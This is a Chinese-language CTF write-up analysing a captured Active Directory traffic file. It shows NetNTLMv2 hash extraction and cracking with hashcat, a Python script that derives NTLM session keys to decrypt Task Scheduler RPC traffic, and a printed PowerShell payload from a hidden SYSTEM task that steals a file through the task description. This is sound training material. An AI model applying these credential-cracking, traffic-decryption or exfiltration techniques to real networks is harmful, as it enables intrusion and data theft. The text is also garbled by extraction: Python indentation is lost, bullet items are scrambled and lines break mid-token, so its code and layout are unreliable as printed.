





# SUCTF2026-LightNovel

## 题目简述
题目是 AD/Kerberos/Task Scheduler 流量取证。题干用“告别 SU_AD 的长夜”“代码斩断所有加密的荆棘”提示域内认证与加密流量；附件包含 `suctf-ad.pcapng`。核心路线是解析 PCAP 中的 Kerberos 认证和 TSCH 远程任务调度流，恢复会话密钥、解密票据/PAC，再从计划任务 XML 和 PowerShell/AES 逻辑中取出最终材料。

## 解题过程
首先根据题目描述，知道这可能是一个ad域流量，使用tshark -r .\suctf-ad.pcapng -q -
z conv,tcp 获得关键tcp会话

```
===============================================================================
=
TCP Conversations
Filter:<No Filter>
| <- | |
-> | | Total | Relative | Duration |
| Frames Bytes | |
Frames Bytes | | Frames Bytes | Start | |
192.168.183.132:34338 <-> 192.168.183.129:49667 636 65 kB
3166 kB 1782 3232 kB 252.576334556 27.8030
192.168.183.132:47354 <-> 192.168.183.129:49667 424 1675 kB
47 kB 751 1722 kB 9.509641846 34.0996
192.168.183.132:33980 <-> 192.168.183.129:49667 170 1984 kB
44 kB 408 2028 kB 327.603814043 16.2791
192.168.183.132:49870 <-> 192.168.183.129:135 5 550 bytes
698 bytes 12 1248 bytes 9.505528798 0.0040
192.168.183.132:54554 <-> 192.168.183.129:135 5 550 bytes
698 bytes 12 1248 bytes 252.572717261 0.0035
192.168.183.132:43432 <-> 192.168.183.129:135 5 550 bytes
698 bytes 12 1248 bytes 327.599891568 0.0037
192.168.183.132:40952 <-> 192.168.183.129:88 5 4380 bytes
3005 bytes 10 7385 bytes 76.131200690 11.4968
192.168.183.132:52774 <-> 192.168.183.129:88 5 2093 bytes
3394 bytes 10 5487 bytes 108.553850071 0.0032
192.168.183.132:36046 <-> 192.168.183.129:88 5 1942 bytes
1846 bytes 10 3788 bytes 327.689664072 0.0024
192.168.183.132:55704 <-> 192.168.183.129:88 4 505 bytes
517 bytes 9 1022 bytes 252.577956942 0.0019

192.168.183.132:55710 <-> 192.168.183.129:88 4 1818 bytes
595 bytes 9 2413 bytes 252.659803207 0.0029
192.168.183.132:55716 <-> 192.168.183.129:88 4 1766 bytes
1784 bytes 9 3550 bytes 252.665577650 0.0018
192.168.183.132:36022 <-> 192.168.183.129:88 4 508 bytes
520 bytes 9 1028 bytes 327.605217831 0.0018
192.168.183.132:36030 <-> 192.168.183.129:88 4 1883 bytes
598 bytes 9 2481 bytes 327.682397350 0.0027
===============================================================================
=
```

可以很快定位到三条关键 TSCH 流：
- tcp.stream == 1 ：47354 -> 49667 ，NTLM + TSCH

的 Kerberos + TSCH• tcp.stream == 5 ：34338 -> 49667 ，kanna.seto

的 Kerberos + TSCH• tcp.stream == 10 ：33980 -> 49667 ，Administrator

No.1

通过tshark命令对stream1 进行解析

```
tshark -r .\suctf-ad.pcapng -Y "frame.number==20 || frame.number==21 ||
frame.number==23 || frame.number==44 || frame.number==45" `
```

得到

```
20 1 DCERPC Bind: call_id: 1, Fragment: Single, 1 context items:
TaskSchedulerService V1.0 (32bit NDR), NTLMSSP_NEGOTIATE
21 1 DCERPC Bind_ack: call_id: 1, Fragment: Single, max_xmit: 4280
max_recv: 4280, 1 results: Acceptance, NTLMSSP_CHALLENGE
23 1 DCERPC AUTH3: call_id: 1, Fragment: Single, NTLMSSP_AUTH,
User: wire.com\\kanna.seto
44 1 TaskSchedulerService SchRpcRegisterTask response
45 1 TaskSchedulerService SchRpcRun request
```

得到结论

- 接口是 TaskSchedulerService

- 认证握手是 NTLMSSP_NEGOTIATE -> CHALLENGE -> AUTH

- 后续方法名是 SchRpc*

使用

```
tshark -r .\suctf-ad.pcapng -Y "frame.number==21 || frame.number==23" `
>> -T fields `
>> -e frame.number `
>> -e ntlmssp.ntlmserverchallenge `
>> -e ntlmssp.auth.domain `
>> -e ntlmssp.auth.username `
>> -e ntlmssp.auth.ntresponse
```

得到NTLMv2 hash

```
21 e9b597a6e03a5122
23 wire.com kanna.seto
```

c4ec074163bee82d9f829d1aa22de1850101000000000000402a64de67addc01393769656779706
e000000000200080057004900520045000100080044004300300031000400100077006900720065
002e0063006f006d0003001a0044004300300031002e0077006900720065002e0063006f006d000
500100077006900720065002e0063006f006d0007000800402a64de67addc010900120063006900
660073002f0044004300300031000000000000000000

通过 hashcat 爆破 NetNTLMv2，得到密码 `taylorswift<3`：

```text
$ hashcat.bin -m 5600 -a 0 hash.txt rockyou.txt
Status...........: Cracked
Hash.Mode........: 5600 (NetNTLMv2)
Recovered........: 1/1 (100.00%)
KANNASETO::wire.com:<NetNTLMv2 challenge/response>:taylorswift<3
```

利用脚本对流量进行解密：

```python
import argparse
import csv
import subprocess
from collections import defaultdict
from dataclasses import dataclass
from pathlib import Path
from typing import Iterable

from Cryptodome.Cipher import ARC4
from impacket import ntlm

TSHARK = r"C:\Program Files\Wireshark\tshark.exe"

@dataclass
class Packet:
frame: int
src: str
srcport: int
pkt_type: int
flags: int
frag_len: int
auth_len: int
call_id: int
opnum: str
pad_len: int
first_frag: bool
last_frag: bool
encrypted_stub: bytes
verifier: bytes

def tshark_tsv(args: Iterable[str]) -> list[list[str]]:
cmd = [TSHARK, *args]
result = subprocess.run(cmd, check=True, capture_output=True, text=True,
encoding="utf-8")
rows = []
for line in result.stdout.splitlines():
if not line.strip():
continue
rows.append(line.split("\t"))
return rows

def hex_to_bytes(value: str) -> bytes:
return bytes.fromhex(value.replace(":", "").strip()) if value.strip() else
```

b""

```python
def parse_packets(pcap: Path, stream: int) -> list[Packet]:
rows = tshark_tsv(
[
"-r",
str(pcap),

"-Y",
f"tcp.stream=={stream} && dcerpc.cn_call_id",
"-T",
"fields",
"-E",
"header=n",
"-E",
"separator=\t",
"-e",
"frame.number",
"-e",
"ip.src",
"-e",
"tcp.srcport",
"-e",
"dcerpc.pkt_type",
"-e",
"dcerpc.cn_flags",
"-e",
"dcerpc.cn_frag_len",
"-e",
"dcerpc.cn_auth_len",
"-e",
"dcerpc.cn_call_id",
"-e",
"dcerpc.opnum",
"-e",
"dcerpc.auth_pad_len",
"-e",
"dcerpc.cn_flags.first_frag",
"-e",
"dcerpc.cn_flags.last_frag",
"-e",
"dcerpc.encrypted_stub_data",
"-e",
"ntlmssp.verf.body",
]
)
packets = []
for row in rows:
row += [""] * (14 - len(row))
packets.append(
Packet(
frame=int(row[0]),
src=row[1],
srcport=int(row[2]),
pkt_type=int(row[3]),

flags=int(row[4], 16),
frag_len=int(row[5]),
auth_len=int(row[6]),
call_id=int(row[7]),
opnum=row[8],
pad_len=int(row[9] or "0"),
first_frag=row[10] == "1",
last_frag=row[11] == "1",
encrypted_stub=hex_to_bytes(row[12]),
verifier=hex_to_bytes(row[13]),
)
)
return packets

def get_auth_values(pcap: Path, auth_frame: int, challenge_frame: int) ->
dict[str, str]:
auth_row = tshark_tsv(
[
"-r",
str(pcap),
"-Y",
f"frame.number=={auth_frame}",
"-T",
"fields",
"-E",
"header=n",
"-E",
"separator=\t",
"-e",
"ntlmssp.auth.domain",
"-e",
"ntlmssp.auth.username",
"-e",
"ntlmssp.auth.lmresponse",
"-e",
"ntlmssp.auth.ntresponse",
"-e",
"ntlmssp.auth.sesskey",
"-e",
"ntlmssp.negotiateflags",
]
)[0]
challenge_row = tshark_tsv(
[
"-r",
str(pcap),
"-Y",

f"frame.number=={challenge_frame}",
"-T",
"fields",
"-E",
"header=n",
"-E",
"separator=\t",
"-e",
"ntlmssp.ntlmserverchallenge",
]
)[0]
return {
"domain": auth_row[0],
"user": auth_row[1],
"lmresponse": auth_row[2],
"ntresponse": auth_row[3],
"enc_session_key": auth_row[4],
"flags": auth_row[5],
"server_challenge": challenge_row[0],
}

def derive_session_keys(password: str, auth: dict[str, str]) -> dict[str, bytes
| int]:
flags = int(auth["flags"], 16)
lmresponse = hex_to_bytes(auth["lmresponse"])
ntresponse = hex_to_bytes(auth["ntresponse"])
server_challenge = hex_to_bytes(auth["server_challenge"])
ntproof = ntresponse[:16]

response_key_nt = ntlm.NTOWFv2(auth["user"], password, auth["domain"])
session_base_key = ntlm.hmac_md5(response_key_nt, ntproof)
key_exchange_key = ntlm.KXKEY(flags, session_base_key, lmresponse,
server_challenge, password, b"", b"", True)
exported_session_key =
ARC4.new(key_exchange_key).decrypt(hex_to_bytes(auth["enc_session_key"]))

return {
"flags": flags,
"session_base_key": session_base_key,
"key_exchange_key": key_exchange_key,
"exported_session_key": exported_session_key,
"client_sign": ntlm.SIGNKEY(flags, exported_session_key, "Client"),
"server_sign": ntlm.SIGNKEY(flags, exported_session_key, "Server"),
"client_seal": ntlm.SEALKEY(flags, exported_session_key, "Client"),
"server_seal": ntlm.SEALKEY(flags, exported_session_key, "Server"),
}

def decrypt_packets(packets: list[Packet], keys: dict[str, bytes | int],
client_ip: str) -> list[dict]:
client_handle = ARC4.new(keys["client_seal"])
server_handle = ARC4.new(keys["server_seal"])
client_seq = 0
server_seq = 0
results = []

for packet in packets:
if not packet.encrypted_stub:
continue
from_client = packet.src == client_ip
handle = client_handle if from_client else server_handle
seq = client_seq if from_client else server_seq

plain = handle.decrypt(packet.encrypted_stub)
checksum_plain = handle.decrypt(packet.verifier[:8]) if
len(packet.verifier) >= 8 else b""
seq_wire = int.from_bytes(packet.verifier[8:12], "little") if
len(packet.verifier) >= 12 else None

if packet.pad_len:
plain = plain[:-packet.pad_len]

results.append(
{
"packet": packet,
"from_client": from_client,
"seq_expected": seq,
"seq_wire": seq_wire,
"checksum_plain": checksum_plain,
"plain": plain,
}
)

if from_client:
client_seq += 1
else:
server_seq += 1

return results

def group_calls(records: list[dict]) -> list[dict]:
groups = []
current = None
for record in records:
packet = record["packet"]

key = (record["from_client"], packet.call_id)
if current is None or current["key"] != key or packet.first_frag:
current = {
"key": key,
"opnum": packet.opnum,
"frames": [],
"data": bytearray(),
"dir": "client" if record["from_client"] else "server",
}
groups.append(current)
current["frames"].append(packet.frame)
current["data"].extend(record["plain"])
if packet.last_frag:
current = None
return groups

def extract_ascii(data: bytes, min_len: int = 6) -> list[str]:
out = []
buf = []
for b in data:
if 32 <= b <= 126:
buf.append(chr(b))
else:
if len(buf) >= min_len:
out.append("".join(buf))
buf = []
if len(buf) >= min_len:
out.append("".join(buf))
return out

def extract_utf16le(data: bytes, min_len: int = 4) -> list[str]:
out = []
i = 0
while i < len(data) - 1:
chars = []
start = i
while i < len(data) - 1:
lo = data[i]
hi = data[i + 1]
if hi == 0 and 32 <= lo <= 126:
chars.append(chr(lo))
i += 2
else:
break
if len(chars) >= min_len:
out.append("".join(chars))
if i == start:

i += 1
return out

def write_outputs(outdir: Path, records: list[dict], groups: list[dict], keys:
dict[str, bytes | int]) -> None:
outdir.mkdir(parents=True, exist_ok=True)

summary_path = outdir / "summary.txt"
with summary_path.open("w", encoding="utf-8") as fh:
fh.write("exported_session_key=" + keys["exported_session_key"].hex()
+ "\n")
fh.write("client_sign=" + keys["client_sign"].hex() + "\n")
fh.write("client_seal=" + keys["client_seal"].hex() + "\n")
fh.write("server_sign=" + keys["server_sign"].hex() + "\n")
fh.write("server_seal=" + keys["server_seal"].hex() + "\n\n")

for record in records:
packet = record["packet"]
fh.write(
f"frame={packet.frame} dir={'C2S' if record['from_client'] else
'S2C'} "
f"call_id={packet.call_id} opnum={packet.opnum or '-'} "
f"seq_expected={record['seq_expected']} seq_wire=
{record['seq_wire']} "
f"plain_len={len(record['plain'])}\n"
)
fh.write("checksum_plain=" + record["checksum_plain"].hex() +
"\n\n")

fh.write("\nGrouped calls\n")
for index, group in enumerate(groups, start=1):
data = bytes(group["data"])
fh.write(
f"\n[{index}] dir={group['dir']} call_id={group['key'][1]}
opnum={group['opnum']} "
f"frames={group['frames']} len={len(data)}\n"
)
ascii_hits = extract_ascii(data)
utf16_hits = extract_utf16le(data)
if ascii_hits:
fh.write("ASCII:\n")
for item in ascii_hits[:20]:
fh.write(" " + item + "\n")
if utf16_hits:
fh.write("UTF16:\n")
for item in utf16_hits[:40]:
fh.write(" " + item + "\n")

manifest_path = outdir / "groups.csv"
with manifest_path.open("w", encoding="utf-8", newline="") as fh:
writer = csv.writer(fh)
writer.writerow(["index", "dir", "call_id", "opnum", "frames",
"length", "bin_file"])
for index, group in enumerate(groups, start=1):
data = bytes(group["data"])
name = f"group_{index:02d}_{group['dir']}_call{group['key']
[1]}_op{group['opnum'] or 'na'}.bin"
(outdir / name).write_bytes(data)
writer.writerow([index, group["dir"], group["key"][1],
group["opnum"], ",".join(map(str, group["frames"])), len(data), name])

def main() -> None:
parser = argparse.ArgumentParser()
parser.add_argument("--pcap", default="suctf-ad.pcapng")
parser.add_argument("--stream", type=int, default=1)
parser.add_argument("--auth-frame", type=int, default=23)
parser.add_argument("--challenge-frame", type=int, default=21)
parser.add_argument("--client-ip", default="192.168.183.132")
parser.add_argument("--password", default="taylorswift<3")
parser.add_argument("--outdir", default="stream1_out")
args = parser.parse_args()

pcap = Path(args.pcap)
auth = get_auth_values(pcap, args.auth_frame, args.challenge_frame)
keys = derive_session_keys(args.password, auth)
packets = parse_packets(pcap, args.stream)
records = decrypt_packets(packets, keys, args.client_ip)
groups = group_calls(records)
write_outputs(Path(args.outdir), records, groups, keys)

print("exported_session_key", keys["exported_session_key"].hex())
print("group_count", len(groups))
for index, group in enumerate(groups, start=1):
data = bytes(group["data"])
ascii_hits = extract_ascii(data)
utf16_hits = extract_utf16le(data)
print(
f"[{index}] dir={group['dir']} call_id={group['key'][1]} opnum=
{group['opnum']} "
f"frames={group['frames']} len={len(data)} ascii={len(ascii_hits)}
utf16={len(utf16_hits)}"
)
for item in utf16_hits[:5]:
print(" utf16", item)

for item in ascii_hits[:5]:
print(" ascii", item)

if __name__ == "__main__":
main()
```

```text
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.3"
xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
<RegistrationInfo>
<Description>UEsDBBQAAQAIA..... <URI>\gsmIqwfB</URI>
</RegistrationInfo>
<Principals>
<Principal id="LocalSystem">
<UserId>S-1-5-18</UserId>
<RunLevel>HighestAvailable</RunLevel>
</Principal>
</Principals>
<Settings>
<DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
<StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
<ExecutionTimeLimit>PT1M</ExecutionTimeLimit>
<Hidden>true</Hidden>
<MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
<IdleSettings>
<Duration>PT10M</Duration>
<WaitTimeout>PT1H</WaitTimeout>
<StopOnIdleEnd>true</StopOnIdleEnd>
<RestartOnIdle>false</RestartOnIdle>
</IdleSettings>
<UseUnifiedSchedulingEngine>true</UseUnifiedSchedulingEngine>
</Settings>
<Triggers>
<CalendarTrigger>
<StartBoundary>2015-07-15T20:35:13</StartBoundary>
<ScheduleByDay>
<DaysInterval>1</DaysInterval>
</ScheduleByDay>
</CalendarTrigger>
</Triggers>
<Actions Context="LocalSystem">
<Exec>
<Command>powershell.exe</Command>

<Arguments>-NonInteractive -enc JAB0AGEAcgBn....... </Exec>
</Actions>
```

对两段密文base64解密得到一个zip，和一个脚本

```text
$target_file = "C:\hint.zip"
$encryptionKey = [System.Convert]::FromBase64String("7mLnyC9VW9IZ8opOl7ouNQ==")
function ConvertTo-Base64($byteArray) {
[System.Convert]::ToBase64String($byteArray)
}

function ConvertFrom-Base64($base64String) {
[System.Convert]::FromBase64String($base64String)
}

function Encrypt-Data($key, $data) {
$aesManaged = New-Object System.Security.Cryptography.AesManaged
$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
$aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$aesManaged.Key = $key
$aesManaged.GenerateIV()
$encryptor = $aesManaged.CreateEncryptor()
$utf8Bytes = [System.Text.Encoding]::UTF8.GetBytes($data)
$encryptedData = $encryptor.TransformFinalBlock($utf8Bytes, 0,
$utf8Bytes.Length)
$combinedData = $aesManaged.IV + $encryptedData
return ConvertTo-Base64 $combinedData
}
```



```text
function Decrypt-Data($key, $encryptedData) {
$aesManaged = New-Object System.Security.Cryptography.AesManaged
$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
$aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$combinedData = ConvertFrom-Base64 $encryptedData
$aesManaged.IV = $combinedData[0..15]
$aesManaged.Key = $key
$decryptor = $aesManaged.CreateDecryptor()
$encryptedDataBytes = $combinedData[16..$combinedData.Length]
$decryptedDataBytes = $decryptor.TransformFinalBlock($encryptedDataBytes,
0, $encryptedDataBytes.Length)
return [System.Text.Encoding]::UTF8.GetString($decryptedDataBytes)
}
function DownloadByPs($taskname){
$task = Get-ScheduledTask -TaskName $taskname -TaskPath \;
# Check if file exists
if (Test-Path -Path $target_file) {
try {
# Read file content and encrypt it, then save it to task
```

description

```text
# Check if file is larger than 1MB
$fileInfo = Get-Item $target_file
if ($fileInfo.Length -gt 1048576) {
$result = "[-] File is too large."
}else{
$result = Get-Content -Path $target_file -Encoding Byte
}
} catch {
$result = $_.Exception.Message
}
}else{
$result = "[-] File not exists."
}
$b64result = ConvertTo-Base64 $result
$task.Description = $b64result
Set-ScheduledTask $task
}
function DownloadByCom($taskname){
$taskPath = "\"
$scheduler = New-Object -ComObject Schedule.Service
$scheduler.Connect()
try {
$folder = $scheduler.GetFolder($taskPath)
$result = ""
$task = $folder.GetTask($taskname)
$definition = $task.Definition
# Check if file exists

if (Test-Path -Path $target_file) {
try {
# Read file content and encrypt it, then save it to task
```

description

```text
# Check if file is larger than 1MB
$fileInfo = Get-Item $target_file
if ($fileInfo.Length -gt 1048576) {
$result = "[-] File is too large."
}else{
$result = Get-Content -Path $target_file -Encoding Byte
}
} catch {
$result = $_.Exception.Message
}
}else{
$result = "[-] File not exists."
}
$b64result = ConvertTo-Base64 $result
$definition.RegistrationInfo.Description = $b64result
$user = $task.Principal.UserId
$folder.RegisterTaskDefinition($task.Name, $definition, 6, $user,
$null, $task.Definition.Principal.LogonType)
}catch {
Write-Error "Failed.."
}
finally {
[System.Runtime.InteropServices.Marshal]::ReleaseComObject($scheduler)
```

| Out-Null

```text
}
}
$taskname = "gsmIqwfB"
try {
DownloadByPs($taskname)
}catch{
DownloadByCom($taskname)
}
[Environment]::Exit(0)ૼ뫠ꝧ
```

通过账户密钥解密压缩包得到一个含yellow网站的jpeg（违规了吧?）和一个不明所以的hint

No.2

通过对stream5 进行tshark解析

```
tshark -r .\suctf-ad.pcapng -Y "frame.number==874 || frame.number==876 ||

frame.number==878 || frame.number==2574 || frame.number==2576" -V `
>> | Select-String -Pattern "TaskSchedulerService|Auth type|Auth
```

$$
level|SPNEGO|Kerberos|KRB5|GSS-API"
$$

得到

```
[Protocols in frame: eth:ethertype:ip:tcp:dcerpc:spnego:spnego-krb5]
Ctx Item[1]: Context ID:0, TaskSchedulerService, 32bit NDR
Abstract Syntax: TaskSchedulerService V1.0
Interface: TaskSchedulerService UUID: 86d35949-83c9-4044-b424-
db363231fd0c
Auth Info: SPNEGO, Packet privacy, AuthContextId(79231)
Auth type: SPNEGO (9)
Auth level: Packet privacy (6)
GSS-API Generic Security Service Application Program Interface
OID: 1.3.6.1.5.5.2 (SPNEGO - Simple Protected Negotiation)
MechType: 1.2.840.48018.1.2.2 (MS KRB5 - Microsoft
Kerberos 5)
krb5_blob [鈥:
6082054906092a864886f71201020201006e82053830820534a003020105a10302010ea
20703050020000000a382047c6182047830820474a003020105a10a1b08574952452e434f4da220
```

301ea003020102a11730151b0468

```
6f73741b0d646330312e776972652e636f6da382043d
KRB5 OID: 1.2.840.113554.1.2.2 (KRB5 - Kerberos 5)
krb5_tok_id: KRB5_AP_REQ (0x0001)
Kerberos
name-type: kRB5-NT-SRV-INST (2)
[Protocols in frame: eth:ethertype:ip:tcp:dcerpc:spnego:spnego-krb5]
Auth Info: SPNEGO, Packet privacy, AuthContextId(79231)
Auth type: SPNEGO (9)
Auth level: Packet privacy (6)
GSS-API Generic Security Service Application Program Interface
supportedMech: 1.2.840.48018.1.2.2 (MS KRB5 - Microsoft
Kerberos 5)
krb5_blob [鈥:
6f8189308186a003020105a10302010fa27a3078a003020112a271046fc09ee0854ebe1
4420977ade3b4961352cbad9d86fe79829f1d2932f27de93832b9d0d8876263cbfc50c1268e6f36
```

fb92896b44875c92f9d8fdf1c775

```
34d1fcb9099397391bf55dac71e2ac8bdb99d756ff58
Kerberos
[Protocols in frame: eth:ethertype:ip:tcp:dcerpc:spnego:spnego-krb5]
Ctx Item[1]: Context ID:0, TaskSchedulerService, 32bit NDR
Abstract Syntax: TaskSchedulerService V1.0

Interface: TaskSchedulerService UUID: 86d35949-83c9-4044-b424-
db363231fd0c
Auth Info: SPNEGO, Packet privacy, AuthContextId(79231)
Auth type: SPNEGO (9)
Auth level: Packet privacy (6)
GSS-API Generic Security Service Application Program Interface
krb5_blob:
6f5b3059a003020105a10302010fa24d304ba003020112a24404420a966368cec1ab7571070c
96e9c8f78e97ef79c8a182beaa9e52642cc23b989b79d0368b6c5fdcee9ef35659e9d526fb8201e
```

9d9e61b8f923acc741aa3e3a7ce4

```
231
Kerberos
[Protocols in frame: eth:ethertype:ip:tcp:dcerpc:spnego-krb5:spnego-krb5]
Auth Info: SPNEGO, Packet privacy, AuthContextId(79231)
Auth type: SPNEGO (9)
Auth level: Packet privacy (6)
GSS-API Generic Security Service Application Program Interface
krb5_blob:
050407ff0010001c00000000194033183a29dcb27a9bd7739931722cd77a1272fb2da86af030316

2d2989b89589b2437c6a833e1a05d6b6ca5379a44189ce45599a00018fc4588685d6
krb5_tok_id: KRB_TOKEN_CFX_WRAP (0x0405)
krb5_cfx_flags: 0x07, AcceptorSubkey, Sealed, SendByAcceptor
krb5_filler: ff
krb5_cfx_ec: 16
krb5_cfx_rrc: 28
krb5_cfx_seq: 423637784
krb5_sgn_cksum:
3a29dcb27a9bd7739931722cd77a1272fb2da86af030316583872d2989b89589b2437c6a833
e1a05d6b6ca5379a44189ce45599a00018fc4588685d6
[Protocols in frame: eth:ethertype:ip:tcp:dcerpc:spnego-krb5:spnego-krb5]
Auth Info: SPNEGO, Packet privacy, AuthContextId(79231)
Auth type: SPNEGO (9)
Auth level: Packet privacy (6)
GSS-API Generic Security Service Application Program Interface
krb5_blob:
050406ff0008001c00000000000002d679e603f2ce4927cf3a6ad36f883a0dfcfb656142f5439ab
```

4445e

```
3711ceacb2b3d0421887d9ba1f68e3b84795e7013608933419d1
krb5_tok_id: KRB_TOKEN_CFX_WRAP (0x0405)
krb5_cfx_flags: 0x06, AcceptorSubkey, Sealed
krb5_filler: ff
krb5_cfx_ec: 8
krb5_cfx_rrc: 28
krb5_cfx_seq: 726
krb5_sgn_cksum:
79e603f2ce4927cf3a6ad36f883a0dfcfb656142f5439ab4445e3711ceacb2b3d0421887d9b

a1f68e3b84795e7013608933419d1

PS C:\Users\miaoai\Desktop\su\application (1)>
```

可以看到

- 874 / 876 / 878 ：绑定的仍然是 TaskSchedulerService
- Auth type: SPNEGO

里协商的是 MS KRB5 / Kerberos 5 • GSS-API

- 后续 2574 / 2576 已经被解析成 SchRpcRegisterTask / SchRpcRun

通过

```
tshark -r .\suctf-ad.pcapng -Y "kerberos" `
>> -T fields `
>> -e frame.number `
>> -e tcp.stream `
>> -e tcp.srcport `
>> -e tcp.dstport `
>> -e kerberos.msg_type `
>> -e kerberos.padata_type `
>> -e kerberos.cname_string `
>> -e kerberos.sname_string
```

得到

```
779 2 40952 88 10 128,16 1 2
783 2 88 40952 11 17 1 2
793 3 52774 88 12,14 1 2,1,2
795 3 88 52774 13 1 1
850 6 55704 88 10 128 1 2
851 6 88 55704 30 19,111,2,16,15 2
859 7 55710 88 10 2,128 1 2
860 7 88 55710 11 19 1 2
868 8 55716 88 12,14 1 2,2
869 8 88 55716 13 1 2
874 5 34338 49667 14 2
876 5 49667 34338 15
878 5 34338 49667 15
2671 11 36022 88 10 128 1 2
2672 11 88 36022 30 19,111,2,16,15 2

2680 12 36030 88 10 2,128 1 2
2681 12 88 36030 11 19 1 2
2689 13 36046 88 12,14 1 2,2
2691 13 88 36046 13 1 2
2696 10 33980 49667 14 2
2698 10 49667 33980 15
2700 10 33980 49667 15
```

这一步可以定位出与 kanna.seto 相关的关键包：
- 859 / 860 ：AS-REQ / AS-REP
- 868 / 869 ：TGS-REQ / TGS-REP

认证的 RPC bind 流量• 874 / 876 / 878 ：Kerberos

通过

```
tshark -r .\suctf-ad.pcapng -Y "frame.number==860" -V | Select-String -Pattern
```

$$
"msg-type|padata-type|salt|etype|cipher"
$$

得到

```
msg-type: krb-as-rep (11)
PA-DATA pA-ETYPE-INFO2
padata-type: pA-ETYPE-INFO2 (19)
ETYPE-INFO2-ENTRY
etype: eTYPE-AES256-CTS-HMAC-SHA1-96 (18)
salt: WIRE.COMKanna.Seto
etype: eTYPE-AES256-CTS-HMAC-SHA1-96 (18)
cipher [鈥:
